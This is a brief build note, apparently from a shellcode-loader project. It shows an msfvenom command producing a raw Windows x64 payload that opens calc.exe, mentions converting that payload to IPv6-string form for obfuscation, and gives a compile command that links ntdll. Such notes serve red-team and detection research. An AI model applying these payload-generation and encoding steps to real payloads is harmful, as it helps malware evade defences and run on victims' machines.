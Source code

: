 generated exec calc.exe payload with
`.\msfvenom.bat -p windows/x64/exec CMD=calc.exe -f raw --pad-nops -n 288 -o calc-payload-nops.bin`
and converted it to IPv6 format with the `payload-to-ipv6-str.c` program

link with ntdll with
`cl module.c ntdll.lib`